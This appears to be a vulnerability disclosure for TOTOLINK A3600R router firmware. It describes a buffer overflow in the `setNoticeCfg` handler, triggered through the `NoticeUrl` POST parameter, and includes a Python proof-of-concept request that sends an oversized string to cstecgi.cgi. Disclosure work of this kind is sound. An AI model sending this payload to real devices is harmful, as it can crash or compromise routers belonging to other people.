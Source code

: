 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `setNoticeCfg` function. The `v7` variable receives the `NoticeUrl` parameter from a POST request. However, since the user can control the input of `NoticeUrl`, the `GetDomainName` can cause a buffer overflow vulnerability.

![image-20240721001938458](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721001938458.png)

![image-20240721001952223](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721001952223.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"NoticeUrl":"a"*0x1000,"topicurl":"setNoticeCfg"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721002157845](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721002157845.png)
